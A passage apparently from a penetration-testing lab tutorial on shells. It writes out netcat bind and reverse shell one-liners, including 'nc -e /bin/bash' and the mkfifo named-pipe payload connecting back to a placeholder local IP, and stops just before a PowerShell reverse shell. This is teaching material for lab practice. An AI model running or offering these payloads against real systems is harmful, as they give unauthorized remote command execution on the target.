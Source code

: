 

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. 
This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. 
This is very useful for experimental purposes, but is not usually necessary for general use.

Shell payloads:

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. 
In some versions of netcat (including the nc.exe Windows version included with Kali at /usr/share/windows-resources/binaries, and the version used in Kali itself: netcat-traditional) 
there is a -e option which allows you to execute a process on connection. For example, as a listener:

nc -lvnp <PORT> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with nc <LOCAL-IP> <PORT> -e /bin/bash would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). 
On Windows where a static binary is nearly always required anyway, this technique will work perfectly. 
On Linux, however, we would instead use this code to create a listener for a bind shell:

mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

The following paragraph is the technical explanation for this command. 
It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. 
The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.



A very similar command can be used to send a netcat reverse shell:

mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.



When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:
